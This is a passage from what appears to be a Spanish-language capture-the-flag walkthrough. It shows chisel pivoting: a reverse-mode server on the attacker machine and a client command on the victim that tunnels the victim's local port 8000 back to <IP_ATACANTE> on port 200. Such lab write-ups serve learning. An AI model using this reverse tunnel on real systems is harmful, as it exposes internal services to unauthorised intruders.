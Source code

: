 
![gobuster](Imagenes/33.png)

En la máquina atacante nos montamos el servidor por el puerto 1234:

```
./chisel server --reverse -p 1234
```
![gobuster](Imagenes/34.png)

En la máquina víctima hacermos el remote port forwarding, de tal manera que conectaremos los puertos 200 de la máquina atacante con el 8000 de la víctima:

```
./chisel client <IP_ATACANTE>:1234 R:200:localhost:8000
```

Ahora si vamos a la máquina atacante y buscamos en el navegador http://localhost:200 veremos lo siguiente:
